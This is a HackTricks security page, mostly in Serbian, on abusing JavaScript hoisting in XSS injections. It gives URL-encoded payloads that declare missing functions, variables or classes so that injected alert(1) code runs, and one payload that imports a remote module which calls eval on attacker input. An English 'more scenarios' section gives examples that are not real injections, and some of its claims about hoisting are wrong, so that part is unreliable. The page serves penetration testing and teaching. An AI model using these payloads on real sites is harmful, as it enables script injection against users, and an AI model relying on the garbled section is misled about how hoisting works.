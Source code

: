 # JS Hoisting

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

U JavaScript jeziku postoji mehanizam poznat kao **Hoisting** gde se deklaracije promenljivih, funkcija, klasa ili importa konceptualno podižu na vrh svog opsega pre izvršavanja koda. Ovaj proces automatski obavlja JavaScript engine, koji prolazi kroz skriptu u više prolaza.

Tokom prvog prolaza, engine parsira kod kako bi proverio sintaksne greške i pretvara ga u apstraktno sintaksno stablo. Ova faza uključuje hoisting, proces u kojem se određene deklaracije premeste na vrh konteksta izvršavanja. Ako faza parsiranja uspešno završi, što ukazuje na odsustvo sintaksnih grešaka, izvršavanje skripte se nastavlja.

Važno je razumeti da:

1. Skripta mora biti bez sintaksnih grešaka da bi se izvršila. Sintaksna pravila moraju se strogo poštovati.
2. Pozicioniranje koda unutar skripte utiče na izvršavanje zbog hoistinga, iako se izvršeni kod može razlikovati od njegovog tekstualnog prikaza.

#### Vrste hoistinga

Na osnovu informacija sa MDN-a, postoje četiri različite vrste hoistinga u JavaScript-u:

1. **Hoisting vrednosti**: Omogućava korišćenje vrednosti promenljive unutar svog opsega pre linije deklaracije.
2. **Hoisting deklaracije**: Omogućava referenciranje promenljive unutar svog opsega pre deklaracije, ali vrednost promenljive će biti `undefined`.
3. Ova vrsta menja ponašanje unutar svog opsega zbog deklaracije promenljive pre stvarne linije deklaracije.
4. Efekti deklaracije se javljaju pre ostalog koda koji je sadrži.

Detaljnije, deklaracije funkcija pokazuju ponašanje hoistinga tipa 1. Ključna reč `var` pokazuje ponašanje hoistinga tipa 2. Leksikalne deklaracije, koje uključuju `let`, `const` i `class`, pokazuju ponašanje hoistinga tipa 3. Na kraju, `import` naredbe su jedinstvene jer se hoistuju sa ponašanjem tipa 1 i tipa 4.

## Scenariji

Dakle, ako imate scenarije gde možete **ubaciti JS kod nakon korišćenja nedeklarisanog objekta**, možete **popraviti sintaksu** tako što ćete ga deklarisati (tako da se vaš kod izvrši umesto da izbaci grešku):

```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```

```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```

```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
return 1;
}
alert(1);
```

```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie('leo','INJECTION')
test['cookie','injection']
```

## Još scenarija

In addition to the scenarios mentioned earlier, there are a few more scenarios where JavaScript hoisting can be exploited for XSS attacks.

### 1. Function Declarations

When a function declaration is hoisted, it can be used to execute arbitrary JavaScript code. This can be particularly dangerous if the function is called with user-controlled input.

```javascript
<script>
    foo(); // Function declaration hoisted

    function foo() {
        alert('XSS');
    }
</script>
```

### 2. Variable Declarations

Similar to function declarations, variable declarations can also be hoisted and used to execute malicious code.

```javascript
<script>
    var x = 10; // Variable declaration hoisted

    if (x === 10) {
        alert('XSS');
    }
</script>
```

### 3. Object Declarations

Hoisted object declarations can be used to execute JavaScript code as well.

```javascript
<script>
    var obj = {
        method: function() {
            alert('XSS');
        }
    };

    obj.method(); // Object declaration hoisted
</script>
```

### 4. Event Handlers

Event handlers can also be exploited using JavaScript hoisting. By hoisting an event handler, an attacker can execute arbitrary code when the event is triggered.

```javascript
<script>
    button.onclick = function() {
        alert('XSS');
    };

    var button = document.getElementById('myButton'); // Event handler hoisted
</script>
```

These additional scenarios demonstrate the versatility of JavaScript hoisting in XSS attacks. It is important to be aware of these possibilities and take appropriate measures to prevent such vulnerabilities.

```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```

```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")


// The imported module:
// module.js
var x = {
y: {
z: function(param) {
eval(param);
}
}
};

export { x };
```

```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//`
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
if(config){
return;
}
// TODO handle missing config for: https://try-to-catch.glitch.me/"+`
let config;`-alert(1)`//`+"
} catch {
fetch("/error", {
method: "POST",
body: {
url:"https://try-to-catch.glitch.me/"+`
let config;`-alert(1)-`//`+""
}
})
}
```

## Reference

* [https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios](https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios)
* [https://developer.mozilla.org/en-US/docs/Glossary/Hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting)
* [https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/](https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
